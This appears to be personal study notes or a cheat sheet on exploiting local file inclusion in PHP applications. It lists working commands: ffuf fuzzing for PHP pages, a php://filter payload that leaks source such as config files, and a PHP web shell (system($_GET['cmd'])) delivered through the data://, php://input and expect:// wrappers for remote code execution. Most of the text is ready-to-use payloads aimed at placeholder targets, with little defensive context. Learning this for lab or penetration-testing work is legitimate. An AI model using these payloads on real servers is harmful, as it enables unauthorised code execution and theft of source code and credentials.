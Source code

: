 # Local file inclusion
## PHP filter

The interesting part, is to find first the php files with ffuf

    ffuf -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php

after that we can try to retrieve the code using the filters.

    php://filter/read=convert.base64-encode/resource=config


## PHP wrappers
### DATA

the data wrapper is what allows to include external data, including php code, and it can allow us to have an RCE.

first we check the php configurations:

Nginx `/etc/php/X.Y/fpm/php.ini`

Apache `/etc/php/X.Y/apache2/php.ini`

and we check for the parameter `allow_url_include` it has to be on in order to include php code as follows:

    echo '<?php system($_GET["cmd"]); ?>' | base64

    http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

### input

Similar to data, the only difference that the server needs to accept POST requests.

    curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
           
## Expect

Finally we have the expect, which allows us to run commands directly as follows :

    curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
